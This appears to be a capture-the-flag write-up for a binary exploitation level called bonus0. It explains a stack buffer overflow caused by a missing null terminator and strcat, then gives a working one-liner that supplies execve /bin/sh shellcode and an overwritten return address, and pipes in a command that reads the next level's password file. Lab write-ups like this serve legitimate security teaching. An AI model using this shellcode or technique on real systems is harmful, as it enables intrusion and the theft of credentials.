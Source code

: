 
ltrace tells use pretty much all the program does:
- take an input, replace \n by \0, put the 20 first char it in a buffer
- do that a second time
- copy the first input to a bigger buffer
- strcat the second one to it

Since if the input are longer that 20 char, they get copied without \0, we can inject shellcode.
We can override eip with inputB, and so put in it the address of our code.
So we need a place to store that code: inputA is perfect, except a bit short. But thanks to strcat, we can put the little extra at the start of inputB.
Since ltrace show us the address of the final buffer, the target is easy to find.
So we need :

InputA = shellcode_p1
InputB = sheelcode_p2 + padding + address_of_strcat_buf + padding

Since we are piping stuff, we need to remember to pass our shell command directly.

```
./bonus0 < <(python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd"'; python -c 'print "\x80" + "B"*8 + "\xf6\xfb\xff\xbf" + "U"*9'; python -c 'print "cat /home/user/bonus1/.pass"')
```
